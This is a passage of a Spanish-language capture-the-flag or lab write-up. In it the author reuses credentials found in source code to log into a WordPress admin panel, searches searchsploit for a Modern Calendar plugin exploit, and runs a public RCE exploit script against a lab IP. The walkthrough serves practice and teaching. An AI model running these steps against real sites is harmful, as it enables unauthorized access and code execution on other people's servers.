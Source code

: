 Vemos que nos da un usuario y una password, vamos a porbar si nos deja entrar en el panel de administrador.
```
user: developer
password: 2wmy3KrGDRD%RsA7Ty5n71L^
```
![alt text](image-5.png)

Vemos que nos muestra el panel de configuración de WordPress. Nos damos cuenta que hay un plugin llamado `modern calendar`, vamos a buscar si tiene un exploit.
```
searchsploit "modern calendar wordpress"
```
![alt text](image-6.png)

Vemos que el segundo nos permite ejecutar un RCE (Remote Code Execution) así que vamos a ejecutarlo.
```
python3 50082.py -T 172.18.0.2 -P 80 -U / -u developer -p 2wmy3KrGDRD%RsA7Ty5n71L^
```